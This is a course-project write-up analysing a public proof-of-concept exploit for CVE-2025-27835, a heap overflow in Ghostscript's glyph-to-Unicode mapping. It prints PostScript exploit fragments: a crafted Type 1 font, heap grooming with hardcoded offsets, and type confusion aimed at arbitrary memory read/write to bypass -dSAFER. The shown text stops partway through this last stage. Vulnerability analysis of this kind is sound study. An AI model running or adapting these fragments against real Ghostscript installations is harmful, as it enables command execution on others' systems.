## Goal
This is a report diving into CVE-2025-27835, a vulnerability in Ghostscript that allows for arbitrary command execution. This report was done with the help of members from the UMass Cybersecurity Club ([Lina Li](https://lli555.github.io/), [Larry Liu](https://github.com/MrLarryMan), [Alex Tong](https://atch2203.github.io/), and [Katherine Shi](https://www.linkedin.com/in/shi-katherine/)) as part of a final group project for the Reverse Engineering & Understanding Exploit Development course.


**We are not claiming to have found this vulnerability, this is just a report of the Proof of Concept exploit code!**


We analyzed CVE-2025-27835, a known buffer overflow vulnerability in Artifex Ghostscript versions prior to 10.05.0 that occurs in line 256 of the `psi/zbfont.c` file, part of a function that converts font glyphs to Unicode (`gs_font_map_glyph_to_unicode`). Our objective was to understand the mechanisms involved in the exploit, the choices the author of the exploit made, and attempt to improve upon the supplied exploit.

## Exploit



The vulnerability is a buffer overflow that occurs on a memcpy call. The destination buffer is of type unsigned char and allocates space accordingly, but it copies `l * sizeof(short)` bytes. Since unsigned chars are 1 byte and shorts are 2 bytes in C, a buffer overflow occurs by copying twice the amount of data.

After reviewing the source code, we hypothesize that the developer made the mistake by thinking that the number of bytes needed to represent a UTF-16 character is twice the size of the source string. However, in this function, l is already treated as the number of bytes of the source string. Thus, the function copies twice as much memory as intended, causing a heap overflow.

## Triggering Conditions

The exploit happens when specifically crafted fonts are used. Fonts are used in ghostscript to interpret PDF data or render/generate PDFs from text data. When a font is loaded and used, the buffer overflow will occur if:
1. The font has a GlyphNames2Unicode dictionary
2. The mapping of glyphs is unsuccessful (c == 0)
3. The font is not a CIDFont (`ch` != -1)
4. The GlyphNames2Unicode dictionary must contain the value of `ch` as an integer key in the dictionary
5. Key ch in the dictionary gives value v, which is a string
6. The size of v is smaller than or equal to length (l <= length)

## Proof of Concept Exploit

The full exploit code can be found at the end of this report.

Running the exploit with the provided command will run `ls`:

`gs -q -sDEVICE=txtwrite -sOutputFile=/dev/null glyphunicode.ps`



## Ghostscript Internals

Postscript allows you to create your own variables, arrays, strings, and various other types. To manage all the different types, Ghostscript creates a struct for every variable.

Almost everything in Ghostscript (variables, functions, fonts, etc) is of a type struct `ref_s`, which contains a struct `tas_s` and union.
The `tas_s` struct contains two important variables: `type_attrs` (the type of object it is, i.e. an array, a string, a font, a number, etc) and rsize (the amount of size in bytes it would take to represent the thing in memory).
A 19 field union is also part of the struct, allowing for data of all different types. 

Below is the struct definition and an example object of type array (as denoted in the `type_attrs`). It is of size 32, and its value is simply a pointer to the array. In this exploit we will only deal with strings and arrays. Strings contain a pointer to the string itself, while arrays contain a pointer to an array of `ref_s` structs (each of which may contain more pointers).

**ref_s ptype:**


**ref_s example variable:**


As some extra context, Ghostscript allows for the execution of bash commands, but it is considered unsafe, so by default, the `-dSAFER` flag is enabled to prevent the execution of arbitrary commands. This flag can be disabled using the `-dNOSAFER` flag. The main goal of most Ghostscript exploits is to bypass this to achieve command execution. We will see later that this flag corresponds to a specific field in a `gs_lib_ctx_core_t` struct.

It also uses a similar allocator to dlmalloc, so the header data is inline with the chunks.

## Exploitation

### Global Variable Setup

Postscript is an interpreted language, therefore, we first need to define a max virtual memory threshold to allocate for the interpreter. The exploit PoC sets this to 500000000

```postscript
500000000 setvmthreshold
```

Next, the author defines two global variables `REFIDX` and `REFOFS` with values 249888 and 3248640 respectively, at hardcoded addresses. We’ll see later on the significance of the values to the exploit. 

```postscript
/REFIDX 249888 def
/REFOFS 3248640 def
```

Three more global variables are defined below, with `STROBJ` being a string of size 1000, `ARROBJ` being an array of size 6250, and `OBJARR` being an array of size 32. While `STROBJ` and `OBJARR` don’t need precise sizes, `ARROBJ` must be size 6250 so we can search for the malloc chunk header size field once we get arbitrary read/write.

```postscript
/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
```

Below is a diagram of the initialized objects in memory, and under that is the definition for `ref_s` definition for reference.


<br />


Below, you can see the values of `OBJARR`, `STROBJ`, and `ARROBJ` from top to bottom. Since `STROBJ` is at the start of `OBJARR`, the pointer of `OBJARR` points directly to it. `ARROBJ` is 16 bytes after that, since `sizeof(ref_s)` is 16. We can verify these are correct but looking at `tas->rsize` since all three variables have distinct sizes.

**OBJARR:**


**ARROBJ:**


**SRTOBJ:**



The next two lines set the first two elements of `OBJARR` to `STROBJ` and `ARROBJ` respectively. 

```postscript
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
```

Finally, to conclude the global variable setup, the exploit author declares 4 variables `TARGET`, `MAGIC`, `STRPTR`, and `ARRPTR` that will be used later. 

The full global variable setup is shown below:

```postscript
500000000 setvmthreshold

/REFIDX 249888 def
/REFOFS 3248640 def

/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
/TARGET null def

/MAGIC null def
/STRPTR null def
/ARRPTR null def
```

### Main Set Up

#### Font Creation

The exploit makes use of a custom Type 1 Font definition and a buffer overflow in the form of the vulnerable `memcpy` in `psi/zbfont.c` in order to hijack execution to invoke a call to the custom defined DONE function.

A font program in PostScript is a collection of commands that describe character shapes that can be accessed using the show operator.  Given a font program definition, the PostScript interpreter can render the font in a device-independent manner. 

The exploit author makes use of a Type 1 Font, a specific font program consisting of ASCII text, encoded, and encrypted portions. Type 1 Font is defined by a dictionary with many required and optional entries, but we’ll just go over the entries most relevant to the exploit.

In the main function, we create a new font with specific data:

- `/FontName`: Name of the font
- `/FontType 1`: Type 1 font (glpyh-based, standard for scalable fonts)
- `/FontMatrix`: Cooridinate transformation matrix ( identity here = no scaling/skewing)

`/Private << /lenIV -1 /Subrs [ <0E> ] >>`

Type 1 fonts encrypt their charstrings where `lenIV` tells the interpreter how many bytes of random prefix to strip before interpreting the glyph data.By setting `/lenIV` to -1, this disables this setting so charstrings will not be encrypted for this font.

`/Subrs` is usually for local subroutines in charstrings, and is set here as <0E> which is an endchar operator in Type 1 charstrings

`/Encoding [ /cs0 /cs1 /cs2 ]`

Defines an array in the font dictionary to obtain the name (and associated commands) of the character to be built. The BuildChar operation (which will, unsurprisingly, construct the custom font character), when called on, will reference the name in /Encoding to build the corresponding key in the `/CharStrings` dictionary.

```postscript
/CharStrings <<
    /.notdef <0E>
    /cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
    /cs1 <0E>
    /cs2 { DONE }
>>
```

Defines the behavior or data for each glyph as a dictionary. `/CharStrings` is one of two encrypted portions in the font program (the other being the `/Private` dictionary). It contains the encoded commands to draw the outlines of the characters within the font. There are a few interesting things to note about what the exploit author does with `/CharStrings` in this instance. First, we’ll notice that `/.notdef <0E>` sets glyph code 0 (a required entry in a valid Type 1 Font) to `<0E>`, which ensures that when an encoding that does not exist in the font program is called, `.notdef` will be substituted to give feedback that the glyph does not exist in the font. Next, we see that `cs0` seems to be setting up some variables:

`/cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }`

Specifically the encoding `cs0` will place 1 in the 0th index of `TEXT` (i.e. `TEXT[0] = 1`), and define an array `TARGET` where `TARGET[REFIDX] = OBJARR`. The motivation for `TEXT[0] = 1` is to set up `TEXT` such that it encodes a glyph whose name maps to `cs0`. 

`/cs1 <0E>`

Similar to `/.notdef`, allocates the smallest valid character that does nothing (we believe that `0e` is a reserved endchar operator, but could only find sources on this related to Type 2 Operators). We found that you could edit `<0E>` and replace it to any number like 3250 and the exploit would still execute properly. We hypothesized that the exploit author simply paired `cs1` to `<0E>` for simplicity and guaranteed no operation (endchar) in this case. 

`/cs2 { DONE }` 

This calls the custom defined `/DONE` function.

`/WeightVector [1]`

This option in the font creation doesn't seem to have any effect on the exploit.

`/$Blend {}`

This option in the font creation doesn't seem to have any effect on the exploit.

```postscript
/FontInfo <<
    /BlendAxisTypes [ /foo ]
    /BlendDesignPositions [[1]]
    /BlendDesignMap [[[1]]]
    /GlyphNames2Unicode << >>
>>
```

Is another dictionary that contains 4 elements. All except the `/GlyphNames2Unicode` dictionary seem to be unimportant. `/GlyphNames2Unicode` is what keeps the mappings from glyphs to actual characters.

```postscript
/Blend <<
    /FontBBox [[1]]
    /Private << >>
>>
```

Is another dictionary that contains 2 elements. Both seem to be unimportant.

#### Full Font Definition Code
```postscript
/Myfont
<<
    /FontName /Myfont
    /FontType 1
    /FontMatrix [1 0 0 1 0 0]
    /Private << /lenIV -1 /Subrs [ <0E> ] >>
    /Decoding 0
    /Encoding [ /cs0 /cs1 /cs2 ]
    /CharStrings <<
        /.notdef <0E>
        /cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
        /cs1 <0E>
        /cs2 { DONE }
    >>
    /WeightVector [1]
    /$Blend {}
    /FontInfo <<
        /BlendAxisTypes [ /foo ]
        /BlendDesignPositions [[1]]
        /BlendDesignMap [[[1]]]
        /GlyphNames2Unicode << >>
    >>
    /Blend <<
        /FontBBox [[1]]
        /Private << >>
    >>
>>
```

#### Font Usage

After defining the font, the next step is to use it. In order to do this, the font needs to be built and set as the current font.

```postscript
.buildfont1
/FONT exch def
/FONTNAME exch def

FONT setfont
```

The `.buildfont1` operator takes a font dictionary from the stack and constructs a font object. The constructed font object is then stored in the variable `FONT`, and its name is stored in `FONTNAME`. Finally, `FONT` is set as the current font using the `setfont` operator.

After setting the font, the exploit author does more setup in /MAIN. The next lines initializes three strings:

```postscript
/TEXT 625000 string def
/SOURCE2 4000002 string def
/SOURCE1 4000002 string def
```

`TEXT` is a string of size 625000, while `SOURCE1` and `SOURCE2` are strings of size 4000002. The sizes of `SOURCE1` and `SOURCE2` are important because they will be used to trigger the buffer overflow in the vulnerable `memcpy` call.

The `ref_s` variables corresponding to these three local variables are right next to each other in the Postscript virtual memory, and their buffers are at fixed “offsets” from each other (we will see later that these offsets are just padding). The way this looks like in memory, the `tas_s` struct of each variable will contain the type of the variable (so they all have type string) and the rsize field in each variable’s `tas_s` struct 625000 or 4000002. The image below is the value of the `SOURCE1` `ref_s` variable.



`SOURCE2 REFOFS <7e12> putinterval`

The program then calls the Postscript `putinterval` operator to put the value `0x127e` at index 3248640 in `SOURCE2`, which is an important thing to keep in mind for later. This is done in the function `do_call_operator` with the address of the Postscript function to run, in this case `zputinterval` with arguments `SOURCE1`, `SOURCE2`, and index. The heap has been set up in a deterministic way such that we are able to hardcode the `REFOFS` value as well, as we will see later. ASLR loads modules at a different address every time, but all important objects are fixed relative to `/TARGET` (which is the struct object the buffer overflow is targeting) stay the same.

The most important part of the main function is the next line:

`FONT /FontInfo get /GlyphNames2Unicode get 1 SOURCE1 put`

Translating this to more readable code, it means get the `/FontInfo` variable from the `FONT` in which we then get the `/GlyphNames2Unicode` dictionary from `/FontInfo` which shortens the code to:

`/GlyphNames2Unicode 1 SOURCE1 put`

And all this does is put the variable `SOURCE1` into the the second mapping of `/GlyphNames2Unicode`, effectively mapping 1 to `SOURCE1`, so `/GlyphNames2Unicode` looks like this after (using this line in our font’s definition instead of using put also works):

```postscript
/GlyphNames2Unicode <<
	1 SOURCE1
>>
```

So the glyph for 1, which is `cs1`, will be mapped to `SOURCE1`. This is important because this mapping NEEDS to be this specifically for the exploit to work or else the buffer is incorrectly written.

In the next line, we undefine the `./notdef` glyph in the font’s `/CharacterCode` dictionary. This means that the font will never execute that glyph when the font encounters some undefined character code.

We then fill up the `TEXT` variable to be the character codes we want to run so it sets `TEXT = [0x0, 0x2, 0x0 …]`. Then we set the position of the cursor to an arbitrary location so we can start rendering text. 

#### Triggering the Exploit

Finally, we run the heart of the exploit by attempting to display the TEXT variable using the specially crafted font.

Because `TEXT = [0x0, 0x2, 0x0 …]`, it will run the code for the glyph that corresponds to character code 0, which is `cs0`. It will then run the code for the glyph that corresponds to the character code 2, which is `cs2`. Looking at `cs0`, the first thing it does is:

`TEXT[0] = 1`

Now the code in `/MAIN` has just set `TEXT = [0x0, 0x2]`. So, after this command, it is now

`TEXT = [0x1, 0x2] `

The code then creates a 312500 element array named `TARGET` which is used later in the exploit. Finally, it places `OBJARR` into `TARGET` at offset `REFIDX`. As such, `TARGET`[249888] is a copy of `OBJARR` (important for type confusion). We found that `REFIDX` accounts for the empty space between unicode_return and `TARGET` (which we will see later). The heap buffers have been specially crafted in such a way that this hardcoded value works consistently.

After `cs0` finishes, our assumption is that it attempts to display the output of `cs1` before running the code for `cs2`,. However, since the value at `TEXT[0]` had changed in between to 1, it now will display the glyph for character code 1, which is `<0E>`, instead of going to `cs2`. Since glyph 1 has no mapping in `/CharStrings`, there would be an error. Normally, the font would see that character code 1 has no mapping and would move to the execution of `/.notdef`. However, because the script had previously undefined it, it attempts to fall back on the `/GlyphNames2Unicode` dictionary which runs `gs_font_map_glyph_to_unicode` to attempt to get the Unicode UTF-16 code for a glyph, which we presume occurs because it maps `cs1` or `0E` to `SOURCE1`. This triggers the overflow and overwrites data from `SOURCE1` and `SOURCE2` (which we control) into the target buffer, which is stored closeby to `unicode_return`. Specifically, it overwrites the type of the `OBJARR` ref we placed in `TARGET`.

### The Exploit

Looking at the vulnerable code again, we see that we are copying from a buffer in `v` to `unicode_return`.

```c
memcpy(unicode_return, v->value.const_bytes, l * sizeof(short));
```

`unicode_return` is temporarily allocated one function up, in `txt_get_unicode`, and v is a Ghostscript variable that we control. With dynamic analysis, we found that `v` is `SOURCE1`, meaning that `v->value.const_bytes` is a buffer of size 4000002. 

```c
unicode = (ushort *)gs_alloc_bytes(dev->memory, length, "temporary Unicode array");
length = font->procs.decode_glyph((gs_font *)font, glyph, ch, unicode, length);
```

Looking at how `unicode_return` was allocated, we can see that it is also of size length (4000002). Thus, we are copying past the end of `SOURCE1` into a space past the end of `unicode_return`. As mentioned earlier, we set up `TARGET` and `SOURCE2` such that they would be in these spaces.



Looking at the diagram, it is clearer that `REFIDX` is the index of our target (copy of `OBJARR`) in `TARGET`, and `REFOFS` is the offset of our overwrite (`0x127e`, which corresponds to type string).

This size of `SOURCE1` was specially chosen. The last 4 bytes of the memcpy will overwrite the type field of the variable `OBJARR`. Before the overflow occurs, `OBJARR` had a type of 0x04 which corresponds to a `t_array`. But we overwrote it to `0x12`, setting it to of type string. However, as we will later see, this also overwrites the malloc and clump headers of `TARGET`, which will cause Ghostscript to crash when trying to clean up.

As you can see in the image, the reason `TARGET` is initialized in `/cs0` and not before we trigger the exploit is because we need `TARGET` to consistently be right after `unicode_return`.

As a brief aside, we investigated how the allocator works and why there are 750000 zero bytes in between `SOURCE1` and `SOURCE2` to understand more on why we set them up in a specific order with specific indices.
Looking at the space before `SOURCE2`, we can find that there are headers corresponding to `gs_malloc_block_t`, and more specifically, the headers contain pointers, size, and a client name that is `“large string clump”`.

```c
// /base/gsmalloc.h

25 /* Define a memory manager that allocates directly from the C heap */
26 typedef struct gs_malloc_block_s gs_malloc_block_t;
```

```c
// /base/gsmalloc.c

89  /* We must make sure that malloc_blocks leave the block aligned. */
90  /*typedef struct gs_malloc_block_s gs_malloc_block_t; */
91  #define malloc_block_data\
92          gs_malloc_block_t *next;\
93          gs_malloc_block_t *prev;\
94          size_t size;\
95          gs_memory_type_ptr_t type;\
96          client_name_t cname
97  struct malloc_block_data_s {
98      malloc_block_data;
99  };
100 struct gs_malloc_block_s {
101     malloc_block_data;
102 /* ANSI C does not allow zero-size arrays, so we need the following */
103 /* unnecessary and wasteful workaround: */
104 #define _npad (-size_of(struct malloc_block_data_s) & (ARCH_ALIGN_MEMORY_MOD - 1))
105     byte _pad[(_npad == 0 ? ARCH_ALIGN_MEMORY_MOD : _npad)];
106 #undef _npad
107 };
```



We can see that our large strings are being allocated with the `alloc_acquire_clump` function using a size of `asize`.



Although asize is calculated using a lot of unreadable bit manipulation, we can see that it is approximately 750000 more bytes than what we requested (`nbytes`).



Combined with the fact that allocations are page aligned, the reason why there is a 751358 bytes in between `SOURCE1` and `SOURCE2` is because of Ghostscript’s `i_alloc_string_immovable` function.

We experimented with allocating different sized strings and seeing where they were placed in memory, and noticed that strings less than around 250000 length are placed in the normal Ghostscript heap.

With further analysis, we found that malloc decides whether strings are put on the heap or in their own clumps, which explains why the author uses 4000000 sized strings.



Additionally, the reason there is no padding between `unicode_return` and `TARGET` is because it is created using a different allocator function (`alloc_obj` instead of `i_alloc_string`).


<br />


#### /DONE Function: Type Confusion For Arbitrary Reads and Writes

After all of this is done, the program renders 2 from `TEXT` using `/cs2`, which just calls the `/DONE` function.

From the buffer overflow of /cs0 and /cs1, we can see that we now have 2 references to the same array, but of different types.

Type confusion is a common strategy used in VM escapes. In this case, the exploit is using it to achieve arbitrary reads and writes. By changing the type to a string we can modify the pointer of `STROBJ` to read/write from any location in memory.

`TARGET[REFIDX]` contained a copy of `OBJARR` in `/cs0` and now `/DONE` makes use of this for the next steps of the exploit. It sets `MAGIC` to `TARGET[REFIDX]`, so `MAGIC` points to the same thing `OBJARR`, except that it is of type string.


Next it defines two more variables `STRPTR` and `ARRPTR`. The exploit first grabs the substring of `MAGIC` using the `getinterval` operator, starting from the 8th character and ending at the 15th character and sets it to `STRPTR`.  Since `MAGIC` is of type string, using `getinterval` will “take the substring” by making a new pointer to that substring.

